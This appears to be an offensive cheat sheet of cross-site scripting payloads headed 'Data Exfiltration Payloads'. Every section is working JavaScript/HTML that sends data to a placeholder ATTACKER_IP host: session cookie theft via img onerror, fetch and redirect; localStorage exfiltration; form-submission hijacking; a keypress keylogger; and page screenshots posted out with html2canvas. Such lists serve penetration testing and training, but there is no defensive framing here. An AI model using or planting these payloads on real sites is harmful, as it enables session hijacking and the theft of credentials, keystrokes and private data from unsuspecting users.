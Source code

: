## Data Exfiltration Payloads

### Steal Session Cookie
```html
<img src=x onerror="new Image().src='http://ATTACKER_IP:8080/?c='+document.cookie" />

<script>
fetch('http://ATTACKER_IP:8080/?c='+document.cookie);
</script>

<script>
document.location='http://ATTACKER_IP:8080/?c='+document.cookie;
</script>
```

### Steal Local Storage
```html
<script>
new Image().src='http://ATTACKER_IP:8080/?data='+btoa(JSON.stringify(localStorage));
</script>
```

### Steal Form Data
```html
<script>
document.querySelector('form').addEventListener('submit', function(e) {
    e.preventDefault();
    const formData = new FormData(e.target);
    const data = Object.fromEntries(formData.entries());
    new Image().src = 'http://ATTACKER_IP:8080/?data='+btoa(JSON.stringify(data));
    e.target.submit();
});
</script>
```

### Keylogger
```html
<script>
document.addEventListener('keypress', function(e) {
    new Image().src='http://ATTACKER_IP:8080/?key='+e.key;
});
</script>
```

### Capture Screenshots (HTML2Canvas)
```html
<script src="https://html2canvas.hertzen.com/dist/html2canvas.min.js"></script>
<script>
html2canvas(document.body).then(canvas => {
    fetch('http://ATTACKER_IP:8080/', {
        method: 'POST',
        body: canvas.toDataURL()
    });
});
</script>
```

---